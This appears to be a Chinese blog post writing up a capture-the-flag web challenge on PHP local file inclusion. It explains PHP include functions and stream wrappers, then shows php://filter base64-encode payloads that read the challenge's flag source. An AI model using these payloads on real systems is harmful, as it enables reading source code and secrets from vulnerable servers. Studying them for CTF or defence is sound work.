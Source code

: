 ```yaml
---
layout:     post
title:      FileInclude 
subtitle:   
date:       2020-03-15
author:     SGQ
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - FileInclude 
    - Web
---
```


## 简介:

   程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，
而无需再次编写，这中文件调用的过程一般被称为文件包含。

   程序开发人员一般希望代码更灵活，所以将被包含的文件设置为变量，用来进行动态调用，
但正是由于这种灵活性，从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。





## 题目:

``` html
<body> 

    <div class="navbar navbar-inverse navbar-fixed-top">
      <div class="navbar-inner">
        <div class="container">
          <a class="btn btn-navbar" data-toggle="collapse" data-target=".nav-collapse">
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </a>
          <a class="brand" href="http://blue-whale.me/">blue-whale.me</a>
          <div class="nav-collapse collapse">
            <ul class="nav">
              <li class="active"><a href="./?page=home">Home</a></li>
              <li class="active"><a href="./?page=flag">Flag</a></li>
            </ul>
          </div><!--/.nav-collapse -->
        </div>
      </div>
    </div>

    <div class="container">



ha ha? you want flag? flag is here, but don't let you see!

      <footer>
        <p>&copy; Blue-Whale 2017</p>
      </footer>

    </div> <!-- /container -->


  </body>

```

## 考察点：

**1.文件包含的基本原理**

**2.文件包含如何构造payload**


## 知识点：


**原理:**

PHP文件包含漏洞的产生原因是在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。最常见的就属于本地文件包含（Local File Inclusion）漏洞了。

程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，而无需再次编写，这中文件调用的过程一般被称为文件包含。

**文件包含漏洞分为：**
1.本地文件包含漏洞
顾名思义，就是在网站服务器本身存在恶意文件，然后利用本地文件包含使用
2.远程文件包含漏洞
远程文件包含就是调用其他网站的恶意文件进行打开


**php常见的几个文件包含函数：**
`include()`,   `include_once()`,  `fopen()`, `require()`,  `require_once()`

**php伪协议的分类**

`php://input`

php://input代表可以访问请求的原始数据，简单来说POST请求的情况下，php://input可以获取到post的数据。

使用条件：`include( )`、`include_once( )`、`file_get_contents( )`

比较特殊的一点，enctype=”multipart/form-data”的时候 php://input 是无效的。

`php://output`

php://output 是一个只写的数据流，允许你以print和echo一样的方式写入到输出缓冲区。

`php://filter`

php://filter是一种元封装器，设计用于数据流打开时的筛选过滤应用，也就是作为一种过滤器，可以使用在数据流产生的地方。

类似的过滤器还有`string.rot13`、`string.strip_tags`、`zlib.deflate`和`zlib.inflate`等等，目前只要知道`convert.base64-encode`就可以。

**URL 中包含点的常见形式:**

`?file = xxx `或者 `?file = xxx.php`



## 解题过程：

**1.** 首先分析页面代码，发现 `<li class="active"><a href="./?page=home">Home</a></li>`,
              `<li class="active"><a href="./?page=flag">Flag</a></li>`  ，可能出现文件包含漏洞.




**2.** 然后开始构造payload，分析页面发现，`http://vps1.blue-whale.me:23338/?page=flag` ,这里是靠page参数进行跳转页面，
于是构造payload : `?page=php://filter/read/resource=./flag `  ,此段代码的含义可理解为筛选`page=flag`的页面并读取。但是页面并没有反应，于是我猜想可能是因为过滤了`read`这个关键词（一般会对一些伪协议的关键词进行过滤，如`read`、`resource`等等）。

**3.** 试一下将read这个关键词进行BASE64加密，新的payload：`?page=php://filter/read=convert.base64-encode/resource=./flag`

**4.** 得到一组BASE64加密的字符串
`aGEgaGE/IHlvdSB3YW50IGZsYWc/IGZsYWcgaXMgaGVyZTw/cGhwDQovLyB0cnkgdG8gcmVhZCB0aGlzIHNvdXJjZSBjb2RlDQovLyRmbGFnID0gJ2ZsYWd7cmVhbGx5X2Jhc2ljX3NraWxsX3dlYl9kb2dfc2hvdWxkX2tub3d9JzsNCj8+LCBidXQgZG9uJ3QgbGV0IHlvdSBzZWUhDQo=`

**5.**进行解密，得到flag！
`
ha ha? you want flag? flag is here<?php
// try to read this source code
//$flag = 'flag{really_basic_skill_web_dog_should_know}';
?>, but don't let you see! `


**lag{really_basic_skill_web_dog_should_know}**





[参考链接（一）--文件包含原理](https://blog.csdn.net/qq_42133828/article/details/83927058)

[参考链接（二）--文件包含的技巧](https://www.cnblogs.com/ichunqiu/p/10683379.html)

## 谢谢您的查阅，欢迎来访！
